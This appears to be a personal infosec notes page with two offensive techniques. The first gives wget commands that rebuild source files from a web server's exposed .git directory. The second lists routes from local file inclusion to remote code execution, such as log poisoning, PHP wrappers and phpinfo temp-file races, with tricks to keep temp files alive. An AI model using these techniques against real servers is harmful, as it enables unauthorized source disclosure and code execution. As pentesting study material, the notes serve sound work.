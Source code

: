 ```yaml
---
layout: page

title: Short Notes

category: infosec
see_my_category_in_header: true

permalink: /infosec/unstructured_notes.html

published: true
---
```


<article class="markdown-body" markdown="1">

# Content
<div class="spoiler"><div class="spoiler-title">
    <i>Table of contents</i>
</div><div class="spoiler-text" markdown="1">

* TOC
{:toc}

</div>
</div>

## Git repo disembowel

    git init
    wget http://example.com/.git/index -O .git/index
    
    git ls-files
        # Listing of git files
    
    git checkout interest-file.txt
        # error with file hash: 01d355b24a38cd5972d1317b9a2e7f6218e15231

    wget http://example.com/.git/objects/xx/yyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyy -O .git/objects/xx/yyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyy

    git checkout interest-file.txt

    # You have file

<br>

---

## LFI -> RCE

Each users request leaves track on server side:

- storing media-files - ***file upload***
    - images
    - video (e.g. ffmpeg vulns, etc.)
- log records (`/apache/logs`, `/var/log/apache2`, `/proc/self/environ`, etc.)
- pseudo-protocols (`data://`, `php://`, `expect://`, etc.)
- tmp files

    `phpinfo ()` - files passed through http are stored by php into tmp files, tmp file-name can be guessed using information from phpinfo and using LFI it must be executed ([some expoit scripts examples](https://rdot.org/forum/showthread.php?t=1134&page=2))

    <br>
    tmp files lives until php-script will end its execution (actually cleanup will start before sending last chunk of data), ways to hold tmp file:

    - `Content-Length` must be falsy to hang php-script execution
    - network connection can be slowed down (e.g. small network/proxy packets, etc.) and `HTTP_Z` http header must be big to increase amount of data after `_FILES` variable in phpinfo output
    - load of script recursively including itself (php will die without cleaning tmp files)

- other places, where web-application stores data (e.g. sessions, e-mails, etc.)

</article>
